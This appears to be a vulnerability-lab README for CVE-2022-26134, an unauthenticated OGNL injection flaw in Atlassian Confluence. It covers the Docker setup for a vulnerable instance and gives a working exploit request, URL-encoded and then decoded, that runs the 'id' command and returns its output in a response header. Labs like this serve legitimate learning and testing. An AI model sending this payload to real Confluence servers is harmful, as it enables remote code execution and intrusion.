

# Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2022-26134)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On June 02, 2022 Atlassian released a security advisory for their Confluence Server and Data Center applications, highlighting a critical severity unauthenticated remote code execution vulnerability. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance.

References:

- <https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html>
- <https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 7.13.6:

```
docker-compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.



## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```


The URL-decoded OGNL expression is `${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`.
